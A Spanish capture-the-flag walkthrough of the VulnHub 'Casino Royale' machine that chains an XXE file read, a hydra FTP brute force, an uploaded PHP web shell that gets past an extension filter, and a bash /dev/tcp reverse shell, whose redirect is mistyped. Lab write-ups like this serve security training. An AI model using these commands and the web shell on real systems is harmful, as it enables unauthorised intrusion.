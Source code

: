 Procedemos con la XXE
![xxe](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/xxe%20passwd.png)

Podemos ver que tenemos un usuario que hace alucion al puerto 21 FTP
![xxeusers](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/usersxxe.png)

pero tambien nos da una ruta interesante para la carga de archivos por FTP `/var/www/html/ultra-access-view`

![ultraaccess](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/ultra-acess.png)

Como solo tenemos el usuario, podemos hacer un intento de fuerza bruta con la Herramienta que mas dominen, en este caso utilice HYDRA
```ruby
hydra -l ftpUserULTRA -P passwords.txt ftp://192.168.195.133 -t 20
```
passwords.txt -> rockyou.txt

![hydrabf](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/hydrabf.png)

Nos logeamos al FTP y pa dentro, ahora si podemos cargar archivos maliciosos, en este caso para manipular una SHELL en la URL de la web
OJO: Eh intentado cargar archivos con extension .php y no le ha gustado, entonces eh probado con archivos que tengan las siguientes extensiones 
.php3, .php4, .php5,etc 

```php
<?php
    echo "<pre>". shell_exec($_REQUEST['cmd']). "</pre>";
?>
```
![cmdphp](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/cmdphp.png)
![put](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/put.png)

Ahora si manipulamos la URL con cmd  nos permite
![cmdurl](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/cmdurl.png)

Procedemos con una Reverse Shell
```shell
bash -c "bash -i >%26 /dev/tcp/192.168.195.128/443 0>261"
```
![reverses](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/reverses.png)
![nc](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/nc.png)

Para poder operar mejor podemos hacer un tratamiento de la TTY para obtener una bash interactiva
```ruby
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
          reset xterm
export TERM=xterm
export SHELL=bash
```
